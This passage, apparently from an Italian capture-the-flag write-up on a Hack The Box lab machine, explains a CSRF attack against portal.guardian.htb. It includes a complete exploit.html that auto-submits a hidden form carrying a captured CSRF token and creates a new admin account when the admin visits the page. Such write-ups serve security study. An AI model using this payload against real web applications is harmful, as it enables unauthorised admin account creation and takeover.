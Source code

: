 ![Notice Token](./img/notice-token.png)

L'idea e' quella di attuare una **CSRF**, inducendo l'**admin** a visitare una pagina malevole che inoltrera' una richiesta ad una risorsa di **portal.guardian.htb** sfruttando i privilegi della vittima.

Il payload per la creazione di un utente di ruolo **admin** e' stato definito nel file **exploit.html**

```html
<form id="exploit" method="POST" action="http://portal.guardian.htb/admin/createuser.php">
        <input type="hidden" name="csrf_token" value="fe0dfe2251f5fe91ea2c78c58a2326f4">
        <input type="hidden" name="username" value="GU9999999">
        <input type="hidden" name="password" value="Password123!">
        <input type="hidden" name="full_name" value="Evil Attacker">
        <input type="hidden" name="email" value="attacker@guardian.htb">
        <input type="hidden" name="dob" value="1999-12-31">
        <input type="hidden" name="address" value="123 The Street">
        <input type="hidden" name="user_role" value="admin">
</form>
<script>document.getElementById("exploit").submit();</script>
```
